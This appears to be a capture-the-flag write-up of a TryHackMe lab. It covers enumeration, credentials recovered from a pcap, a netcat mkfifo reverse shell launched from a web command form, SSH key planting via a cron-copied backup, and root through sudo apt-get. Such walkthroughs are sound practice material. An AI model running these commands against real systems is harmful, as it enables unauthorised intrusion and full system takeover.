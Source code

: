 
https://tryhackme.com/r/room/smaggrotto

---
#### Nmap
![[Screenshot_2024-05-26_21-10-22.png]]

Gobuster showed me `/mail` with a `pcap` file in. I found creds POSTed in `http://development.smag.thm/login.php` , which are `helpdesk:cH4nG3M3_n0w`

The `/aW1wb3J0YW50/dHJhY2Uy.pcap` path is base64 encoded name, here the decoded path: `/important/trace2.pcap`

`Nikto` told the following information on `/mail`
```text
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
```

I put domains in my `/etc/hosts`
```text
10.10.3.204      smag.thm development.smag.thm
```

I used the creds above to pass the login page and I landed on a page asking for a command. I didn't get any answer on any command so I decided to setup a reverse shell and it worked
```shell
#On my machine
nc -lvnp 9001

#In the command form
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.79.56 9001 >/tmp/f
```

And here I am in as `www-data`

I found `jake` ssh public key on `/opt/.backups` and there is this line in crontab
![[Screenshot_2024-06-12_18-31-19.png]]

So I have to put my ssh public key in it to be able to connect via ssh on `jake` account
```shell
ssh-keygen -t rsa -b 4086 -f ./id_rsa
```
And then connect
```shell
ssh jake@10.10.3.204 -i id_rsa
```

And here I am in as `jake`

the `sudo -l` gave me `apt-get` and GTFObins gave me
```shell
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

And here I am root